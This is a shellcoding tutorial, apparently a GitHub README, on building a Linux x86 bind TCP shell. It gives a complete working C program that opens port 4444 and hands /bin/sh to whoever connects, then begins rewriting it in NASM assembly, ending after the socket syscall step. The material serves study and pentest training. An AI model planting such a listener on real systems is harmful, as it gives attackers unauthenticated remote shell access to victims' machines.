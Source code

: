 # Bind TCP Shell

Today, we will deal with the process of creating Bind TCP Shell from scratch. As a rule, we distinguish between two types of shells that interest the pentester:
- Bind TCP Shell
- Reverse TCP Shell
In the first case, it involves opening a listening port on the victim's system so that the attacker can remotely connect to his shell.

First, we'll try to reproduce this behavior using a C program.

```c
#include <stdio.h>
#include <netinet/in.h>

// Change the correct port here
#define PORT 4444

int main(int argc, char **argv)
{	
	// sys_socket()	- Creating a socket (interface) for communication
	int bind_socket = socket(AF_INET, SOCK_STREAM, 0);
	
	// sys_bind() - Binding to a specified address and port 
	struct sockaddr_in address;
	address.sin_addr.s_addr = INADDR_ANY;
	address.sin_port = htons(PORT);
	address.sin_family = AF_INET;
	bind(bind_socket,(struct sockaddr *)&address, sizeof(address));
	
	// sys_listen() - Listening for incoming connection 
	listen(bind_socket,0);
	
	// sys_accept() - Accepting the incoming connection
	int sock = accept(bind_socket,NULL,NULL);
	
	// sys_dup2() - Configuring STDIN/STDOUT and STDERR for proper shell functioning
	dup2(sock,2);	// STDERR
	dup2(sock,1);	// STDOUT
	dup2(sock,0);	// STDIN
	
	// sys_execve() - Establishing a shell using /bin/sh
	execve("/bin/sh",NULL,NULL);
	
	return 0;
}
```

As we can see, in order to create a properly working program, it is necessary to use several so-called system calls. In this case, they are:

- sys_socket ()
- sys_bind ()
- sys_listen ()
- sys_accept ()
- sys_dup2 ()
- sys_ execve ()

They are responsible for the whole process that the computer must perform to finally end with an open port waiting for connection.

So let's start creating our shellcode using NASM. I will try to divide this process into parts, distinguishing between different system calls called in the course.

First, we will start by clearing the registers we use, because in the case of the C language wrapper that we will be using, it may turn out to be very important (registers are not empty at the time of transition to the _start function).
```nasm
global _start

section .text
_start:

cleaning:
	; cleaning all registers for further usage
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
```
Then, we proceed to create the socket. For this purpose, we will use socketcall () syscall, which will allow us to easily call subsequent types of system calls (socket, bind, listen ....).

At this point I would like to explain the principle of system calls. Their list, in the case of systems based on intel x86 processors, can be found in the file:
- /usr/include/i386-linux-gnu/asm/unistd_32.h

Each call system has its own identifier, which if you want to call directly describes it. For example, socketcall () has the identifier 102, which can be easily checked by grepping its name.
```sh
$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socketcall
#define __NR_socketcall 102
```
In addition, in order to call the system call, in most cases you will need to set the appropriate arguments (system calls should be treated as a function) in the correct registers and order.

Processor registers can be used as "containers" for arguments. In the case of system calls, it looks like this:
- EAX is responsible for the system call identifier
- EBX holds the first argument
- ECX holds the second argument
- EDX stores the third argument
- ESI stores the fourth argument
- EDI stores the fifth argument

Situations where more than five arguments should be used fall outside the scope of this article.

In the case of socketcall () syscall, the situation looks slightly different. 
Due to the fact that other types of system calls will be called with it, the arguments describing these types must be placed in the reverse order (!) On the stack, and then the ECX register (second argument) must point to the top of the stack, in such way that the processor can easily get to the called syscall arguments.

So we know that there must be 102 in the EAX registry. How do you know what further arguments are required? In most cases, use the man command.
```sh
$ man 2 socketcall
SOCKETCALL(2)              Linux Programmer's Manual             SOCKETCALL(2)

NAME
       socketcall - socket system calls

SYNOPSIS
       int socketcall(int call, unsigned long *args);

DESCRIPTION
       socketcall()  is  a  common  kernel  entry  point for the socket system
       calls.  call determines which socket function to invoke.   args  points
       to a block containing the actual arguments, which are passed through to
       the appropriate call.
```
We see, therefore, that this syscall accepts two arguments. The first is socket function to invoke (for example, sys_socket ()), the second indicates the arguments of this function (top of the stack in ECX).

The first function we call is sys_socket. Let's check its unique identifier.
For "minor" syscalls called by socketcall (), their list is in the file:
- /usr/include/linux/net.h
```sh
$ cat /usr/include/linux/net.h | grep sys_socket
#define SYS_SOCKET	1		/* sys_socket(2)		
```
Identifier is 1, let's check what arguments are expected. 
```sh
$ man 2 socket | grep "int socket"
int socket(int domain, int type, int protocol);
```
In most cases, the man command accurately describes what each argument means and where we can find the values that describe it. If not, everything is in Google :)
- AF_INET = 2 (PF_INET)
```sh
$ vim /usr/include/i386-linux-gnu/bits/socket.h +122

#define AF_INET    PF_INET

$ vim /usr/include/i386-linux-gnu/bits/socket.h +78

#define PF_INET         2       /* IP protocol family
```
- SOCK_STREAM = 1
```sh
$ vim /usr/include/i386-linux-gnu/bits/socket.h +42

SOCK_STREAM = 1,              /* Sequenced, reliable, connection-based byte streams.  */
```
- IPPROTO_IP = 0
```sh
$ vim /usr/include/netinet/in.h + 34

IPPROTO_IP = 0,        /* Dummy protocol for TCP.  */
```
These arguments must be thrown in the reverse order due to the specifics of the stack.

Let's move to the NASM code:
```nasm
sys_socket:
	; {C code} --> int bind_socket = socket(AF_INET, SOCK_STREAM, 0);
	
	; syscall definition
	mov al, 102 		; syscall - socketcall
	mov bl, 1		; socketcall type - sys_socket

	; pushing the sys_socket atributes in reverse order (AF_INET, SOCK_STREAM, IPPROTO_IP)
	xor esi, esi		
	push esi		; IPPROTO_IP = 0 (null)
	push 1			; SOCK_STREAM = 1
	push 2			; AF_INET = 2 (PF_INET)

	mov ecx, esp 		; directing the stack pointer to sys_socket() function arguments

	int 128			; syscall execution

	mov edx, eax		; saving the bind_socket pointer for further usage
```
